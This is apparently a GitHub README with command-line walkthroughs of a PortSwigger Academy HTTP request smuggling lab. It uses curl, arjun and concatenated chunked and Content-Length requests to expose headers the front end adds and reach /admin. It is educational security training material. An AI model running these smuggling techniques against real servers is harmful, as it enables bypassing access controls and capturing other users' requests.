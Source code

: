 # Examples


The aim is to perform request smuggling from command line. The aim is not to totally replace Burp Suite but to propose another approach., with more CLi.

The following examples are an alternative to PortSwigger Burp solutions provided for the PortSwigger Burp academy

## [Exploiting HTTP request smuggling to reveal front-end request rewriting](https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting)


Browsing `/admin` endpoint we've got: `Admin interface only available if logged in as an administrator, or if requested from 127.0.0.1`

We also know that:
* The front-end server adds an HTTP header to incoming requests containing their IP address. We have to find its name
* The front-end does not support chunk encoding

Export an envvar for your lab endpoint:
```shell
export LAB_URL=[YOUR_LAB_URL]
```

### I - Find a POST parameter that is reflected in response
use [`arjun`](https://github.com/s0md3v/Arjun):
```shell
arjun -u $LAB_URL
[...]
[+] Heuristic scanner found 1 parameter: search
```

Confirm with it curl request:
```shell
curl -X POST [LAB_URL] --data "search=toto" | grep "toto" -C 10 --color
[...]                    <section class=blog-header>
                        <h1>0 search results for 'toto'</h1>
                        <hr>
                    </section>
[...]
```
Indeed, the `search` parameter is reflected in h1 tag

### II - Construct legitimate request that reflect parameters
```shell
# in one shell
httpecho -d search_legit
# in another shell
curl -X POST http://localhost:8888/ --data "search=toto" -H "Host: $LAB_URL" -H 'User-Agent:'  -H 'Accept:'
# empty headers to withdraw curl default ones
```

### III - Smuggle this request to the back-end server, followed directly by a normal request whose rewritten form you want to reveal

To smuggle the request "embed" it in a normal request. The request will include a large Content-Length. As the back end use it, it will also include the first characters of the next request (which is provided by front end) **=> Added front-end headers can thus be accessible in the response 💥 **

To construct this request: construct a normal request: (always with `httpecho -d basic`)
```shell
curl -X POST http://localhost:8888/ --data "search=toto" -H "Host: [LAB_URL]" -H 'User-Agent:'  -H 'Accept:' -H 'Transfer-encoding: chunked'
# delete line to only have a 0\r\n\r\n in request, sed -i '4d' ./basic
# printf "\r\n\r\n"
```
And concatenate with the requets with a parameter but with a large `Content-Length` + w/o `Host` (~ `search_legit`):
```shell
cat basic search_legit_custom > smuggle
```
